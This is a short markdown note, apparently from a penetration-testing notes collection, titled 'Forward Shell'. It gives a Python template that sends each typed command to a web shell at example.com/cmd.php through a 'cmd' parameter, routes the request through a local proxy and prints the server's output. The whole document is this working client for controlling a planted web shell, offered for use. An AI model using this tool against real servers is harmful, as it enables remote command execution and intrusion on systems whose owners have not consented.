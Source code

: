```yaml
---
title: "Forward Shell"
date: 2024-7-11
tags: ["python", "shell", "forward", "template"]
---
```


### Python Forward Shell Template

<div>

```python
#!/usr/bin/env python3

from cmd import Cmd
import requests

class Term(Cmd):
    prompt = "shell> "

    def default(self, args):
        response = requests.get("http://example.com/cmd.php", params = {"cmd": args}, proxies={"http":"http://127.0.0.1:8080"})
        print(response.text)

term = Term()
term.cmdloop()
```

</div>

<br>